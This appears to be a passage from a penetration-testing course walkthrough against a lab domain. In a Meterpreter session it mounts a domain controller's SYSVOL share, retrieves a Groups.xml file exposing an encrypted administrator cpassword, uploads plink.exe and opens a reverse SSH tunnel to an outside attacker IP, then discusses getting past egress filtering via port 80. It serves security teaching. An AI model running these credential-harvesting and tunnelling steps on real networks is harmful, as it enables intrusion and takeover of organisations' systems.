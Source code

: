 meterpreter \> getuid

Server username: MEGACORPONE\\mike

C:\\Users\\mike.MEGACORPONE\\Desktop\>net use z: \\\\dc01\\SYSVOL

The command completed successfully.

Z:\\\>dir /s Groups.xml

Volume in drive Z has no label.

Volume Serial Number is 6AD0-F80A

Directory of Z:\\megacorpone.com\\Policies\\{809DED9C-BA72-49D0-A922-

FEE90E0122C9}\\Machine\\Preferences\\Groups

04/14/2013 10:47 AM 548 Groups.xml

1 File(s) 548 bytes

Total Files Listed:

1 File(s) 548 bytes

0 Dir(s) 27,201,875,968 bytes free

Z:\\\> copy
Z:\\megacorpone.com\\Policies\\{...}\\Machine\\Preferences\\Groups\\Groups.xml

C:\\Users\\mike.MEGACORPONE\\Documents

C:\\Users\\mike.MEGACORPONE\\Documents\>type Groups.xml

\<?xml version="1.0" encoding="utf-8"?\>

\<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"\>

\<User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="Administrator

cpassword= "riBZpPtHOGtVk+SdLOmJ6xiNgFH6Gp45BoP3I6AnPgZ1IfxtgI67qqZfgh78kBZB"
...

subAuthority="RID_ADMIN" userName="Administrator (built-in)"/\>\</User\>

\</Groups\>

![](media/6ceee0f1b205012977f1e9d9b56fc63e.png)

meterpreter \> upload /usr/share/windows-binaries/plink.exe
c:\\\\Windows\\\\temp

meterpreter \> shell

...

C:\\Windows\\temp\>plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99

Our attempt to create a tunnel fails due to egress firewall rules present in the
management network; these are blocking outbound connections to TCP port 22. We
set the SSH daemon to listen on our attacking machine on port 80 and we retry
the outbound tunnel connection.
